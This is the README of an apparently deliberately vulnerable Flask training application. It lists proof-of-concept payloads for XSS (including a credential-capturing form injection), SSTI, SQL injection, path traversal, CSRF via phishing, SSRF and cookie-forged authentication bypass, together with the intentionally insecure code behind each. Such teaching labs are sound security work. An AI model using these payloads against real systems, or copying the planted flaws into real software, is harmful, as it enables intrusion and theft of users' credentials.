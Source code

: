 # Description:
FVA Flask Vulnerable Application was developed for the purpose of learning 

# Installation
##### Clone and install the application
```BASH
git clone https://github.com/FIR-UIII/FVA.git
cd FVA
python3 -m venv {name}
source bin/activate
pip install -r requirements.txt
```
##### Install PostgreSQL
Please see the documentation: https://www.postgresql.org/docs/current/tutorial-install.html

# TODO:
* сделать заглушки в случае невалидных логина или пароля или необходиомсти аутентификации
* csrf добавить подключение к БД psql
* перенести в env основные конфигурационные настройки

# Vulnerabilities 
## XSS
Exploit/PoC:
```html
1. GET injection: http://{URL}/xss?param=<script>alert(1)</script>
2. HTML img injection: <img src=https://stackoverflow.com/ onerror=alert(1)>
3. JS  injection: <script>alert(document.domain)</script>
4. HTML tag injection: <a href="javascript:alert(document.domain);">click here</a>
5. Iframe injection: <iframe src="data:text/html,<script>alert('XSS')</script>"></iframe>
6. Iframe injection:<iframe src="http://httpforever.com/></iframe>
7. Form injection:
<form name="login" action="http://ip: port/">
 	<label for="login">login: </label>
 	<input type="text" name="login" required>
 	<br>
 	<label for="password">password: </label>
 	<input type="password" name="password" required>
 	<br>
 	<input type="submit" value="Login!">
 </form>
8. Service worker injection:
<script>
window.addEventListener('load', function() {
    var sw = "/sw.js";
    navigator.serviceWorker.register(sw, {scope: '/'})
       .then(function(registration) {
            console.log('Service Worker registered successfully');
        })
       .catch(function(err) {
            console.error('Service Worker registration failed:', err);
        });
});
</script>
```

Vulnerable code:
```
# modules/xss.py
user_input = request.args.get('param') #<-- точка ввода через query параметры xss reflected + SSTI  
return render_template('xss.html', user_input=user_input) #<-- небезопасный вывод пользователю данных без санитизации
data = request.form['user_input'] #<-- точка пользовательского ввода без валидации xss stored
```

## Authentication bypass
Exploit/PoC:
```
1. Go to root page "/" (logout from the current session if nessesary)
2. Open DevTools / Application / Cookies:
3. Create new with name:'user_id', value:'any_value'
4. Refresh page and profit
```

Vulnerable code:
```
# modules/require_authentication.py
cookie = request.cookies.get('user_id') #<--значение cookie не проверяется
```

## Path traversal
Exploit/PoC:
```
1. Open view-source http://localhost:8888/path_travers
2. Observe the path: <img src="/path_travers_img/?img=/static/scripting.png" alt="what_is_that" width="100" height="100"></p>
3. Try:
/../<your_local_file>
/README.md
/static/scripting.png
```
Vulnerable code:
```
# modules/path_travers.py
image_path = f"{root_folder()}{file_path}" # --> dangerous command root_folder() and get user {file_path} input without validation
```

## SSTI 
Exploit/PoC:
```
Go to: http://localhost:8888/ssti
Try payload:
?param={{(9*9)}}
?param={{%20config.items()%20}}
```

Vulnerable code:
```
# modules/ssti.py
user_input = request.args.get('param', 'Введите данные в query "?param="') #<-- точка ввода через query параметры xss reflected + SSTI
return render_template_string(template) #<-- небезопасный вывод пользователю данных без санитизации
</b>'''+user_input+'''</pre> #<-- небезопасный вывод пользователю данных без санитизации
```

## XSS via Service worker
Exploit/PoC:
```
1. Go to /upload  
2. Use payload /sw.js: `setInterval(function(){console.log("U been h@cked");}, 5000);`
3. Refresh page
```

Vulnerable code:
```
# templates/upload.html
<script>
      if (navigator.serviceWorker) {
        navigator.serviceWorker.register('/static/sw.js').then(function(registration) {
          console.log('Service Worker registered:', registration.scope);
        }).catch(function(error) {
          console.error('Service Worker registration failed:', error);
        });
      }
    </script>
# main.py
file.save(os.path.join(FVA.static_folder, filename)) #<-- user input without proper validation
```

## CSRF
Exploit/PoC:
```
1. Create phishing web server `python -m http.server`
2. Host payload /hacker_csrf.html
3. Provide to victim phishing URL (user action: click)
4. Check passwords

OR
1. Create phishing URL link http://{URL}/ssrf?url=http://localhost:8888/xss
2. Provide to victim phishing URL (user action: click)
3. Check passwords
```

Vulnerable code:
```
# modules/csrf.py
@csrf_bp.route('/change_password', methods=['POST', 'GET']) #<-- critical actions mist be exucuted via POST request
if request.method == 'GET': #<-- critical actions mist be exucuted via POST request
new_password = str(request.args.get('new_password')) #<-- no info from fronend that this is user actions
```

## SSRF
Exploit/PoC:
Vulnerable code:
GET request: 
http://localhost:8888/ssrf?url=http://localhost:8888/xss

POST request: 
curl -X POST -d "url=http://localhost:8888/xss" http://localhost:8888/ssrf


# SQl injection
Exploit/PoC:
Vulnerable code:
brew services start postgresql
psgl postgres
python init_db.py from modules.init_db import create_database
=# \dt
=# SELECT * FROM users;

injection 
login: ' OR 1=1; --
password: any

# command_injection
Exploit/PoC:
Vulnerable code:

/go to command_injection
change cookie to admin > base64

## Security misconfiguration
#### CORS
Exploit/PoC:
Vulnerable code:

python -m http.server 8000
devtools > console:
fetch('http://localhost:8888/api/users')
  .then(response => response.text())
  .then(data => console.log(data))
  .catch(error => console.error('Error:', error));

  
